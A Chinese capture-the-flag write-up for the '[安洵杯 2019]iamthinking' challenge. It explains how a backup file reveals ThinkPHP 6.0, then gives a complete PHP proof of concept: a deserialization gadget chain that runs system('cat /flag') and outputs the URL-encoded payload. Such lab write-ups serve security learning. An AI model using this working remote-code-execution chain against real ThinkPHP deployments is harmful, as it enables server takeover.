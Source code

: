# 原创
：  [安洵杯 2019]iamthinking

# [安洵杯 2019]iamthinking

#### [安洵杯 2019]iamthinking

## 考点

> 
反序列化


## 思路

> 
打开题目显示：You don’t have permission to access this resource.<br/> 试着扫一下有没有备份文件，得到www.zip<br/> 通过备份文件我们知道是ThinkPHP 6.0版本<br/> 审计源码，构造thinkphp6反序列化，同时需要绕过parse_url


## Payload

> 
Poc


```
&lt;?php
namespace think {

    use think\model\concern\Attribute;
    use think\model\concern\Conversion;
    use think\model\concern\RelationShip;


    abstract class Model
    {
        use Conversion;
        use RelationShip;
        use Attribute;

        private $lazySave;
        protected $table;
        public function __construct($obj)
        {
            $this-&gt;lazySave = true;
            $this-&gt;table = $obj;
            $this-&gt;visible = array(array('hu3sky'=&gt;'aaa'));
            $this-&gt;relation = array("hu3sky"=&gt;'aaa');
            $this-&gt;data = array("a"=&gt;'cat /flag');
            $this-&gt;withAttr = array("a"=&gt;"system");
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
        protected $visible;
    }

    trait RelationShip
    {
        private $relation;
    }

    trait Attribute
    {
        private $data;
        private $withAttr;
    }
}

namespace think\model {
    class Pivot extends \think\Model
    {
    }
}

namespace {
    $a = new think\model\Pivot('');
    $b = new think\model\Pivot($a);

    echo urlencode(serialize($b));
}

```

